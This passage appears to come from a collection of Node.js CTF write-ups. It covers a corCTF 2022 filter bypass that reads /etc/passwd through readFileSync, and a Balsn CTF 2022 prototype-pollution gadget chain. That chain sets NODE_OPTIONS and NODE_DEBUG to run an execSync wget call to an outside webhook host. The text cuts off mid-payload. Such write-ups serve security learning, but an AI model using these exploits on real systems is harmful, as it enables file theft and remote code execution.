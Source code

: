 ``` js
const fs = require('fs')

console.log(fs.readFileSync({
  href: 1,
  origin: 1,
  protocol: 'file:',
  hostname: '',
  pathname: '/etc/passw%64'
}).toString())
// equals to readFileSync(new URL("file:///etc/passw%64"))
```

Author's writeup: https://brycec.me/posts/corctf_2022_challenges#simplewaf

### Balsn CTF 2022 - 2linenodejs

The core of the code looks like this:

``` js
#!/usr/local/bin/node
process.stdin.setEncoding('utf-8');
process.stdin.on('readable', () => {
  try{
    console.log('HTTP/1.1 200 OK\nContent-Type: text/html\nConnection: Close\n');
    const json = process.stdin.read().match(/\?(.*?)\ /)?.[1],
    obj = JSON.parse(json);
    console.log(`JSON: ${json}, Object:`, require('./index')(obj, {}));
  }catch (e) {
    require('./usage')
  }finally{
    process.exit();
  }
});

// index
module.exports=(O,o) => (
    Object.entries(O).forEach(
        ([K,V])=>Object.entries(V).forEach(
            ([k,v])=>(o[K]=o[K]||{},o[K][k]=v)
        )
    ), o
);
```

There is an obvious prototype pollution, and RCE needs to be achieved.

Here is a great paper for reference: [Silent Spring: Prototype Pollution Leads to Remote Code Execution in Node.js](https://arxiv.org/abs/2207.11171)

But the gadget mentioned in the paper has been fixed, so you need to find another one yourself, and the result is as follows:

``` js
Object.prototype["data"] = {
  exports: {
    ".": "./preinstall.js"
  },
  name: './usage'
}
Object.prototype["path"] = '/opt/yarn-v1.22.19'
Object.prototype.shell = "node"
Object.prototype["npm_config_global"] = 1
Object.prototype.env = {
  "NODE_DEBUG": "console.log(require('child_process').execSync('wget${IFS}https://webhook.site?q=2').toString());process.exit()//",
  "NODE_OPTIONS": "--require=/proc/self/environ"
```